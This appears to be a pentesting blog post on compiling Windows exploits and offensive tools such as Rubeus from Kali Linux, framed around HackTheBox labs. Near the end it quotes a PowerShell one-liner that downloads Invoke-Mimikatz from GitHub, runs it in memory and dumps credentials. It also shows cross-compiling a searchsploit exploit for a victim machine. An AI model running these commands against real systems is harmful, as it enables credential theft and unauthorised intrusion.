 ```yaml
---
layout: post
title: Compile Windows Programs in Kali Linux
category: Tools
tags: windows exploits
date: 2023-04-19 20:51 +0300
---
```


There are a lot of situations, when you have to compile an exploit for a specific version of Windows, for example, to make a privilege escalation. But you have only Kali Linux and no idea how to deal with these exploits in Visual Studio Projects format.

Today we are going to learn about ways we can compile our exploits using Kali Linux and additional software.

> Funny story: I was doing some lab on HackTheBox and I had to upload a compiled version of Rubeus. I had no idea how to compile Windows programs, and I had only Kali Linux. So I’ve started to search some pre-compiled versions on the Internet. And I really found a pre-compiled base64 version of the program, which did not work for me. I’ve spent a few hours on this searching, and finally I got the “right” version of the Rubeus, which worked for me. After some amount of time I’ve realized that I could do it much easier. It was so terrible🤣.

# Cross-compiler

If you want to compile your exploit right on your Kali Linux machine, you can use cross-compilation tools, like `mingw-w64`. It is used to compile Windows programs on Linux.

```bash
sudo apt install mingw-w64
```

For example, you have a x86 victim machine and an exploit for it. You may want to compile an exploit written in `C` language. You can use the commands below to do that.

```bash
searchsploit -m 42341
i686-w64-mingw32-gcc 42341.c -lws2_32 -o exploit.exe
```

![Compiling with mingw-w64](/assets/tools/compile-windows-programs-in-kali-linux/mingw.png)

# Virtual Machine

It is recommended to install a VM on your side to test your exploits/theories about the target. So, you can compile the program right on that machine. But be sure to install right target’s version of the operating system.

Firstly, you have to install the iso image of the OS. You can download the right version of Windows on [Microsoft website](https://www.microsoft.com/en-gb/software-download/windows10), the [Internet Archive](https://archive.org/details/windows-10-2022-update-version-22h2) or other sites. I provided links to Windows 10 Update Version 22H2 just for example.

Then, create a VM in virtualization software you like. I used to work with VirtualBox, but now I use VMWare Workstation Player, it seems better for me.

![Creating a VM in VMWare Workstation Player](/assets/tools/compile-windows-programs-in-kali-linux/vmware.png)

If you did it well, feel free to use new VM not just to compile programs for it. You can explore the system for file system, default settings, testing your exploits, etc…

# On the victim machine

It is a very low-possible way, but why not? If the target machine has a compiler installed, then we can use it to compile projects right on the target machine.  

For example, to build [Rubeus](https://github.com/GhostPack/Rubeus), a C# project just with command line you have to use `MSBuild` binary. I’ve found its location on [StackOverFlow](https://stackoverflow.com/questions/44567280/where-is-msbuild-exe-installed-in-windows-when-installed-using-buildtools-full-e), the root of it is `C:\Program Files (x86)\Microsoft Visual Studio`. There you can find the year of installed version, then go to build tools and you’ll get it.

Copy the binary path, change your current directory to the project directory and use the binary from there.

```powershell
 "C:\Program Files (x86)\Microsoft Visual Studio\2017\BuildTools\MSBuild\15.0\Bin\MSBuild.exe"
```

![Building Rubeus with MSBuild](/assets/tools/compile-windows-programs-in-kali-linux/msbuild1.png)

![Building Rubeus with MSBuild](/assets/tools/compile-windows-programs-in-kali-linux/msbuild2.png)

Then, enjoy your program!

![Using Rubeus after MSBuild](/assets/tools/compile-windows-programs-in-kali-linux/msbuild3.png)

Also, developers machines always include some kind of IDEs with a lot of useful tools installed. So, if you have a RDP connection, then why not to use the legitimate developer tools 😀. 

# Find pre-compiled versions

## Kali Linux windows binaries

The Kali tools provides some pre-compiled Windows binaries installed with operating system. The `windows-binaries` is a package, which can be installed with `apt`.

```bash
sudo apt install windows-binaries
```

After installation, you can enter the `windows-binaries` command to get a list of pre-compiled binaries. Also, you will change your working directory to package installation directory.

![windows-binaries command output](/assets/tools/compile-windows-programs-in-kali-linux/windows-binaries.png)

## The Internet

There are a lot of pre-compiled versions of useful binaries. They can be even ported in PowerShell scripts.

For example, you can find an [Invoke-Mimikatz.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-Mimikatz.ps1) script. If we look at its source code, we can find Base64 strings for 64-bit and 32-bit systems.

![Invoke-Mimikatz Source code](/assets/tools/compile-windows-programs-in-kali-linux/invoke-mimikatz.png)

You can just download and use that script. But there is no guarantee it would work on your system. Here is a quick in-memory usage example from [HackTricks](https://book.hacktricks.xyz/windows-hardening/stealing-credentials#invoke-mimikatz).

```powershell
IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/clymb3r/PowerShell/master/Invoke-Mimikatz/Invoke-Mimikatz.ps1')
Invoke-Mimikatz -DumpCreds # Dump creds from memory
```

# Conclusion

Today we explored ways to compile Windows programs. You can use these methods to use your exploits on target machines. If you know another ways to do that, feel free to write a comment.

Thank you for reading, I hope it was useful for you ❤️
